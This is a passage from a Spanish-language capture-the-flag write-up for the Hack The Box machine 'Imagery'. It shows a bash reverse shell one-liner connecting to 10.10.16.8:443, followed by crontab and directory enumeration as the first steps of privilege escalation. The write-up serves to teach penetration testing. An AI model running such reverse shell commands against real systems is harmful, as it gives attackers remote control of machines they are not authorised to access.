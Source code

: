 ![](htb-writeup-imagery/imagery34.png)


```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.8/443 0>&1'
```

![](htb-writeup-imagery/imagery35.png)

Estamos dentro!!!!!! Conseguimos una shell!!!!

## Escalada de Privilegios

### Shell como Web

Enumerando primero las tareas cron o tareas programadas que se ejecutan a nivel de sistema en intervalos regulares de tiempo, nos encontramos con esto:

```bash
web@Imagery:~/web$ crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
* * * * * python3 /home/web/web/bot/admin.py
```

Existe una tarea `0 5 * * 1 tar -zcf /var/backups/home.tgz /home/` que esta deshabilitada pero quizas haya generado copias de seguridad en su tiempo.

En la carpeta `/var/backups` nos encontramos con mucha informacion que almacena linux de manera regular. Pero cuando nos dirijiamos a dicha carpeta, en el camino nos encontramos con

```bash
web@Imagery:/var$ ls -l
total 48
drwxr-xr-x  2 root root   4096 Sep 22 18:56 backup
drwxr-xr-x  3 root root   4096 Sep 23 16:27 backups
drwxr-xr-x 17 root root   4096 Sep 22 18:56 cache
drwxrwsrwt  2 root root   4096 Sep 22 18:56 crash
drwxr-xr-x 45 root root   4096 Sep 22 19:11 lib
drwxrwsr-x  2 root staff  4096 Sep 22 18:56 local
lrwxrwxrwx  1 root root      9 Oct  7  2024 lock -> /run/lock
drwxrwxr-x  8 root syslog 4096 Oct 27 12:56 log
drwxrwsr-x  2 root mail   4096 Sep 22 18:56 mail
drwxr-xr-x  2 root root   4096 Sep 22 18:56 opt
lrwxrwxrwx  1 root root      4 Oct  7  2024 run -> /run
```